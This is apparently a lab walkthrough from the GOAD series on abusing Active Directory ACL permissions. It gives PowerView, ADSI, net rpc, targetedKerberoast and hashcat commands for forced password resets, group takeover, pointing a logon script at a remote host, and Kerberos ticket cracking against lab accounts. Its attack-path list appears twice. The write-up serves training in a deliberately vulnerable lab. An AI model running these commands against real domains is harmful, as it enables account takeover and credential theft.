








# GOAD Part 10 - ACL

Access privileges for resources in Active Directory Domain Services are usually granted through the use of an Access Control Entry (ACE). Access Control Entries describe the allowed and denied permissions for a principal (e.g. user, computer account) in Active Directory against a securable object (user, group, computer, container, organizational unit (OU), GPO and so on)
If an object's (called **objectA**) DACL features an ACE stating that another object (called **objectB**) has a specific right (e.g. `GenericAll`) over it (i.e. over **objectA**), attackers need to be in control of **objectB** to take control of **objectA**. 
The following abuses can only be carried out when running commands as the user mentioned in the ACE (**objectB**)



**GenericAll Rights on User
**This privilege grants an attacker full control over a target user account. Once `GenericAll` rights are confirmed using the `Get-ObjectAcl` command, an attacker can:
* **Change the Target's Password**: Using `net user <username> <password> /domain`, the attacker can reset the user's password.
* **Targeted Kerberoasting**: Assign an SPN to the user's account to make it kerberoastable, then use Rubeus and targetedKerberoast.py to extract and attempt to crack the ticket-granting ticket (TGT) hashes.
* **Targeted ASREPRoasting**: Disable pre-authentication for the user, making their account vulnerable to ASREPRoasting.

**GenericAll Rights on Group
**This privilege allows an attacker to manipulate group memberships if they have `GenericAll` rights on a group like `Domain Admins`. After identifying the group's distinguished name with `Get-NetGroup`, the attacker can:
* Add Themselves to the Domain Admins Group: This can be done via direct commands or using modules like Active Directory or PowerSploit.

**GenericAll / GenericWrite / Write on Computer/User
* **Holding these privileges on a computer object or a user account allows for:
* **Kerberos Resource-based Constrained Delegation**: Enables taking over a computer object.
* **Shadow Credentials**: Use this technique to impersonate a computer or user account by exploiting the privileges to create shadow credentials.

**WriteProperty on Group
**If a user has `WriteProperty` rights on all objects for a specific group (e.g., `Domain Admins`), they can:
**Add Themselves to the Domain Admins Group**: Achievable via combining `net user` and `Add-NetGroupUser` commands, this method allows privilege escalation within the domain.

**Self (Self-Membership) on Group
**This privilege enables attackers to add themselves to specific groups, such as `Domain Admins`, through commands that manipulate group membership directly. 
Using the following command sequence allows for self-addition:
`net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain`

**WriteProperty (Self-Membership)
**A similar privilege, this allows attackers to directly add themselves to groups by modifying group properties if they have the `WriteProperty` right on those groups. 
The confirmation and execution of this privilege are performed with:

`Get-ObjectAcl -ResolveGUIDs | ? {$`*`.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $`*`.IdentityReference -eq "OFFENSE\spotless"}
net group "domain admins" spotless /add /domain`

**ForceChangePassword
**Holding the `ExtendedRight` on a user for `User-Force-Change-Password` allows password resets without knowing the current password. Verification of this right and its exploitation can be done through PowerShell or alternative
command-line tools, offering several methods to reset a user's password, including interactive sessions and one-liners for non-interactive environments. 
The commands range from simple PowerShell invocations to using `rpcclient` on Linux, demonstrating the versatility of attack vectors.

`Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainUserPassword -Identity delegate -Verbose
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose`

`rpcclient -U KnownUsername 10.10.10.192 setuserinfo2 UsernameChange 23 'ComplexP4ssw0rd!'`

### **WriteOwner on Group**

If an attacker finds that they have `WriteOwner` rights over a group, they can change the ownership of the group to themselves. This is particularly impactful when the group in question is `Domain Admins`, as changing ownership allows for broader control over group attributes and membership. The process involves identifying the correct object via `Get-ObjectAcl` and then using `Set-DomainObjectOwner` to modify the owner, either by SID or name.

`Get-ObjectAcl -ResolveGUIDs | ? {$`*`.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $`*`.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico`

### **GenericWrite on User**

This permission allows an attacker to modify user properties. Specifically, with `GenericWrite` access, the attacker can change the logon script path of a user to execute a malicious script upon user logon. 
This is achieved by using the `Set-ADObject` command to update the `scriptpath` property of the target user to point to the attacker's script.

`Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1”`

### GenericWrite on Computer

With GenericWrite over a computer, you can write to the “msds-KeyCredentialLink” attribute. Writing to this property allows an attacker to create “Shadow Credentials” on the object and authenticate as the principal using Kerberos PKINIT. See more information under the AddKeyCredentialLink edge.

Alternatively, you can perform a resource-based constrained delegation attack against the computer.

**GenericWrite on Group
**With this privilege, attackers can manipulate group membership, such as adding themselves or other users to specific groups. This process involves creating a credential object, using it to add or remove users from a group, and verifying the membership changes with PowerShell commands.

`$pwd = ConvertTo-SecureString 'JustAWeirdPwd!$' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('DOMAIN\username', $pwd)
Add-DomainGroupMember -Credential $creds -Identity 'Group Name' -Members 'username' -Verbose
Get-DomainGroupMember -Identity "Group Name" | Select MemberName
Remove-DomainGroupMember -Credential $creds -Identity "Group Name" -Members 'username' -Verbose`

**WriteDACL + WriteOwner
**Owning an AD object and having `WriteDACL` privileges on it enables an attacker to grant themselves `GenericAll` privileges over the object. This is accomplished through ADSI manipulation, allowing for full control over the object and the ability to modify its group memberships. Despite this, limitations exist when trying to exploit these privileges using the Active Directory module's `Set-Acl` / `Get-Acl` cmdlets.

`$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local"
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()`

**Replication on the Domain (DCSync)**

The DCSync attack leverages specific replication permissions on the domain to mimic a Domain Controller and synchronize data, including user credentials. 
This powerful technique requires permissions like `DS-Replication-Get-Changes`, allowing attackers to extract sensitive information from the AD environment without direct access to a Domain Controller.

### Practice

Let’s start by configuring the lab so we can do some ACL Abuses.

``` text
sudo docker run -ti --rm --network host -h goadansible -v $(pwd):/goad -w /goad/ansible goadansible ansible-playbook ad-data.yml
sudo docker run -ti --rm --network host -h goadansible -v $(pwd):/goad -w /goad/ansible goadansible ansible-playbook ad-acl.yml
sudo docker run -ti --rm --network host -h goadansible -v $(pwd):/goad -w /goad/ansible goadansible ansible-playbook ad-relations.yml
sudo docker run -ti --rm --network host -h goadansible -v $(pwd):/goad -w /goad/ansible goadansible ansible-playbook vulnerabilities.yml

```



# Enumeration

Enumerating ACLs with Bloodhound-python UNIX-like

Once we do have a valid user, we can use Bloodhound to enumerate.

`bloodhound-python -c all -u 'tywin.lannister@sevenkingdoms.local' -p 'powerkingftw135' -ns 10.4.10.10 -d sevenkingdoms.local -dc kingslanding.sevenkingdoms.local`



Now let’s upload this information into Bloodhound and analyze it.

### Analysis

we can use the following filter to find ACL configurations.

`MATCH p=(u)-[r1]->(n) WHERE r1.isacl=true and not tolower(u.name) contains 'vagrant' and u.admincount=false and not tolower(u.name) contains 'key' RETURN p`


## sevenkingdoms.local ACL

To start we will focus on the sevenkingdoms killchain of ACL by starting with tywin.lannister (password: powerkingftw135)

- The path here is :
- Tywin -> Jaime : Change password user
- Jaime -> Joffrey : Generic Write user
- Joffrey -> Tyron : WriteDacl on user
- Tyron -> small council : add member on group
- Small council -> dragon stone : write owner group to group
- dragonstone -> kingsguard : write owner to group
- kingsguard -> stannis : Generic all on User
- stannis -> kingslanding : Generic all on Computer
- Tywin -> Jaime : Change password user
- Jaime -> Joffrey : Generic Write user
- Joffrey -> Tyron : WriteDacl on user
- Tyron -> small council : add member on group
- Small council -> dragon stone : write owner group to group
- dragonstone -> kingsguard : write owner to group
- kingsguard -> stannis : Generic all on User
- stannis -> kingslanding : Generic all on Computer


Above we can see see all the rights each user hash to other and we will start by exploiting each permission during this lab.

NOTE: Abusing ACL make change on the targets. Be sure to you know what you are doing if you try to exploit it during an audit.

# **ForceChangePassword on User (Tywin -> Jaime)**

It’s important to understand that this should be conducted carefully since this will change the user password that we do have permission to change password and user may get blocked since his password will be changed.



As we can see above, user **tywin.lannister** has `ForceChangePassword` right to user **jaime.lannister**, let’s take advantage of this right.

We execute the command and we get the prompt to add the new password. After that we can test the login with the new password on user **jaime.lannister**.
`net rpc password jaime.lannister -U 'sevenkingdoms.local/tywin.lannister%powerkingftw135' -S kingslanding.sevenkingdoms.local`

`netexec smb 10.4.10.10 -u jaime.lannister -p 'pasdebraspasdechocolat' -d sevenkingdoms.local` 



Above we can see that were able to change user **jaime.lannister’s** password, testing login to the server using NetExec.

# **GenericWrite on User (Jaime -> Joffrey)**

Previously we were able to get access to user Jaime exploring **`ForceChangePassword`** right. the next step is to do an horizontal privilege escalation exploring **`GenericWrite`** from user Jaime to user Joffrey.



- Shadow Credentials (Windows Server 2016 +)
-  Logon Script
- Targeted Kerberoasting (Normally the password has to be weak enough for the hash to be cracked or you really need to have a good wordlist)
### Targeted Kerberoasting

This abuse can be carried out when controlling an object that has a `GenericAll`, `GenericWrite`, `WriteProperty` or `Validated-SPN` over the target. 
A member of the **`Account Operator `**group usually has those permissions.
The attacker can add an SPN (`ServicePrincipalName`) to that account. Once the account has an SPN, it becomes vulnerable to Kerberoasting.
The principle is simple. Add an SPN(Service Principal Name) to the user, ask for a (TGS)Ticket Granting Service, remove the SPN(Service Principal Name) on the user.

`targetedKerberoast.py -v -d sevenkingdoms.local -u 'jaime.lannister' -p 'pasdebraspasdechocolat' --request-user 'joffrey.baratheon'`



Once the Kerberoast hash is obtained, it can possibly be cracked to recover the account's password if the password used is weak enough.

Now we can get the TGS and try to crack it using Hashcat.
`hashcat -m 13100 -a 0 TGS_hash.txt /usr/share/wordlists/rockyou.txt --force`


---

*Back to [GOAD Overview](../README.md)*
